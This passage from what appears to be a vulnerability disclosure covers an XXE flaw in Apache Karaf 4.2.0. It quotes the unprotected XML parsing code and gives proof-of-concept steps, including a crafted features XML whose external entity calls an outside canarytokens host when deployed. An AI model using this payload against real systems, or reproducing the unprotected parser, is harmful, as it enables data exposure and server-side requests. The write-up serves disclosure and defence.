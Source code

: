 * Then it calls function [`bundleChanged`](https://github.com/apache/karaf/blob/karaf-4.2.1/deployer/features/src/main/java/org/apache/karaf/deployer/features/FeatureDeploymentListener.java#L180) - [`canHandle`](https://github.com/apache/karaf/blob/karaf-4.2.1/deployer/features/src/main/java/org/apache/karaf/deployer/features/FeatureDeploymentListener.java#L145) - [`getRootElementName`](https://github.com/apache/karaf/blob/karaf-4.2.1/deployer/features/src/main/java/org/apache/karaf/deployer/features/FeatureDeploymentListener.java#L258) to parse XML document by leveraging [`XMLInputFactory`](https://github.com/apache/karaf/blob/karaf-4.2.1/specs/java.xml/src/main/java/javax/xml/stream/XMLInputFactory.java)

But upon further investigation on function `getRootElementName` as below, there is no any prevention against XXE.
```Java
private QName getRootElementName(File artifact) throws Exception {
    if (xif == null) {
        xif = XMLInputFactory.newFactory();
        xif.setProperty(XMLInputFactory.IS_NAMESPACE_AWARE, true);
    }
    try (InputStream is = new FileInputStream(artifact)) {
        XMLStreamReader sr = xif.createXMLStreamReader(is);
        sr.nextTag();
        return sr.getName();
    }
}
```
Therefore, I assumed it posed a potential security risk for Apache Karaf.

## Proof of Concept
In order to verify my assumption, I tested on the latest official release of Apache Karaf 4.2.0 which was downloaded from <https://karaf.apache.org/download.html> as follows.

1. Download the binary distribution from [Apache Karaf 4.2.0](http://www.apache.org/dyn/closer.lua/karaf/4.2.0/apache-karaf-4.2.0.tar.gz)
2. Uncompress the package and locate to folder `bin` to start Karaf command console as shown below
```Shell
  bin$ ./karaf
          __ __                  ____      
         / //_/____ __________ _/ __/      
        / ,<  / __ `/ ___/ __ `/ /_        
       / /| |/ /_/ / /  / /_/ / __/        
      /_/ |_|\__,_/_/   \__,_/_/         

    Apache Karaf (4.2.0)

  Hit '<tab>' for a list of available commands
  and '[cmd] --help' for help on a specific command.
  Hit '<ctrl-d>' or type 'system:shutdown' or 'logout' to shutdown Karaf.

  karaf@root()>
```
3. Generate a DNS token on <https://canarytokens.org/generate> , e.g. `27av6zyg33g8q8xu338uvhnsc.canarytokens.com`
4. Craft a XML file and add an external entity with the generated DNS token embedded in DTDs as below:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```
5. Copy the crafted XML file under folder `deploy`